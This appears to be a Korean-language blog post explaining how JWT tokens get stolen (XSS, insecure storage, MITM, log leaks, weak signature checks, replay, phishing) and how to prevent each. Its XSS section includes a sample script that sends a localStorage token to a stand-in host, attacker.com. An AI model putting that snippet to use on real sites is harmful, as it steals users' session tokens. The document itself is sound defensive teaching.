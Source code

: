 ```yaml
---
Date: 2024-12-24
Category: Auth
---
```


JWT (JSON Web Token)는 보안에 강력한 도구이지만, **토큰이 노출되면 치명적인 보안 위협**이 발생할 수 있습니다.  
토큰 탈취는 주로 **애플리케이션, 네트워크, 사용자의 실수 등 다양한 경로**를 통해 발생합니다.

---

## 🛡️ **1. 클라이언트 측 취약점**

### ✅ **1.1 XSS (Cross-Site Scripting)**

- **설명:** 공격자가 웹 페이지에 악성 스크립트를 삽입하여 사용자의 브라우저에서 JWT를 탈취합니다.
- **공격 방법:**
    - 브라우저의 `localStorage`, `sessionStorage`, 또는 `cookie`에 저장된 토큰을 탈취.
    - 예시:

```javascript
<script>
  fetch('https://attacker.com/steal?token=' + localStorage.getItem('token'));
</script>
```

- **예방 방법:**
    - 토큰을 `HttpOnly` 쿠키에 저장 (JavaScript 접근 불가).
    - 입력 값 검증 및 HTML 이스케이프.
    - CSP (Content Security Policy) 적용.

---

### ✅ **1.2 토큰 저장 방식 문제**

- **설명:** 토큰이 `localStorage`나 `sessionStorage`에 저장되면, 브라우저의 스크립트를 통해 접근이 가능합니다.
- **안전한 방법:**
    - **`HttpOnly` 쿠키를 사용** (JavaScript로 접근 불가).
    - `Secure` 플래그로 HTTPS 통신만 허용.

---

## 🌐 **2. 네트워크 취약점**

### ✅ **2.1 중간자 공격 (Man-in-the-Middle, MITM)**

- **설명:** 공격자가 클라이언트와 서버 간 통신을 가로채 JWT를 탈취합니다.
- **공격 방법:**
    - HTTPS가 아닌 HTTP로 통신.
    - 인증서 위변조.
- **예방 방법:**
    - **HTTPS 사용 필수.**
    - SSL/TLS 인증서 검증 강화.
    - HSTS (HTTP Strict Transport Security) 활성화.

---

### ✅ **2.2 로그 노출 (Logging Leak)**

- **설명:** 개발 중 토큰이 로그에 기록되어 노출될 수 있습니다.
- **예시:**

```plaintext
INFO: User login success, token=eyJhbGciOiJIUzI1NiIsIn...
```

- **예방 방법:**
    - 로그에 민감한 정보(토큰, 비밀번호) 포함 금지.
    - 보안 감사 및 로그 관리.

---

## 💻 **3. 서버 측 취약점**

### ✅ **3.1 잘못된 토큰 검증**

- **설명:** 서버가 토큰의 서명을 제대로 검증하지 않는 경우 공격자가 위조된 토큰으로 인증할 수 있습니다.
- **예시:**
    - 잘못된 비밀키 사용.
    - 서명 검증 미사용.
- **예방 방법:**
    - 반드시 **토큰 서명 검증**.
    - 비밀키를 안전하게 관리.
    - 잘못된 알고리즘 (예: `none`) 거부.

---

### ✅ **3.2 토큰 재사용 (Replay Attack)**

- **설명:** 공격자가 탈취한 JWT를 재사용하여 서버에 접근합니다.
- **예방 방법:**
    - **토큰 블랙리스트/화이트리스트** 관리.
    - 토큰 사용 시마다 만료 확인.
    - 토큰에 **jti (JWT ID)**를 추가하여 중복 사용 방지.

---

## 🧠 **4. 사용자 실수**

### ✅ **4.1 피싱 공격 (Phishing Attack)**

- **설명:** 사용자가 가짜 로그인 페이지에 토큰을 입력하여 탈취됩니다.
- **예방 방법:**
    - 사용자에게 공식 도메인을 안내.
    - 브라우저의 주소 표시줄 확인 강조.
    - 2FA (Two-Factor Authentication) 활성화.

---

### ✅ **4.2 공용 기기 사용**

- **설명:** 사용자가 로그아웃하지 않은 상태로 공용 기기(PC, 태블릿 등)를 사용한 경우.
- **예방 방법:**
    - 자동 로그아웃 기능 설정.
    - 로그아웃 후 토큰 무효화.
    - 보안 세션 관리.

---

## 📊 **탈취 경로 요약**

|**경로**|**설명**|**예방 방법**|
|---|---|---|
|**XSS**|브라우저에서 JavaScript로 토큰 접근|HttpOnly 쿠키, CSP 적용|
|**LocalStorage**|저장소를 통해 접근 가능|HttpOnly 쿠키 사용|
|**MITM**|통신 중간에서 토큰 탈취|HTTPS 강제, SSL/TLS 강화|
|**로그 노출**|토큰이 서버 로그에 노출됨|민감 정보 로깅 금지|
|**서명 검증 오류**|잘못된 알고리즘/서명 검증 미흡|강력한 서명 검증, 알고리즘 검증|
|**Replay Attack**|탈취한 토큰 재사용|블랙리스트/화이트리스트, `jti` 사용|
|**피싱**|가짜 로그인 페이지로 토큰 유출|공식 도메인 확인, 2FA 활성화|
|**공용 기기**|공용 기기에서 토큰 노출|자동 로그아웃, 세션 만료 관리|

---

## 🚀 **JWT 보안을 위한 Best Practice**

1. **HttpOnly, Secure 쿠키 사용:** JavaScript 접근 차단 및 HTTPS 강제.
2. **HTTPS 강제:** SSL/TLS로 네트워크 보안 강화.
3. **짧은 만료 시간 설정:** 액세스 토큰은 짧게, 리프레시 토큰은 상대적으로 길게.
4. **블랙리스트/화이트리스트 관리:** 로그아웃 또는 강제 만료 처리.
5. **알고리즘 검증:** JWT 서명 알고리즘 확인 (`none` 사용 금지).
6. **jti (JWT ID) 사용:** 토큰 중복 사용 방지.
7. **모니터링:** 의심스러운 로그인 활동 탐지.
8. **보안 테스트:** XSS, CSRF 취약점 검증.

---

## 🧠 **JWT 보안, 어디에 집중해야 할까?**

- **클라이언트:** XSS, 토큰 저장소 (`HttpOnly` 쿠키).
- **네트워크:** HTTPS 강제, SSL/TLS 인증서 확인.
- **서버:** 올바른 토큰 서명 검증, 짧은 토큰 만료 시간, 블랙리스트/화이트리스트 관리.
- **사용자:** 피싱 주의, 공용 기기 사용 금지.

---

### 🎯 **결론**

- JWT 자체는 안전합니다. **하지만 관리와 저장이 문제의 핵심입니다.**
- **XSS 공격과 네트워크 탈취를 가장 주의해야 합니다.**
- **HttpOnly Secure 쿠키 사용, HTTPS 강제, 올바른 서명 검증**을 통해 안전성을 보장할 수 있습니다.

---

더 궁금한 점이 있거나, 특정 보안 취약점에 대해 자세히 알고 싶다면 말씀해주세요! 🚀😊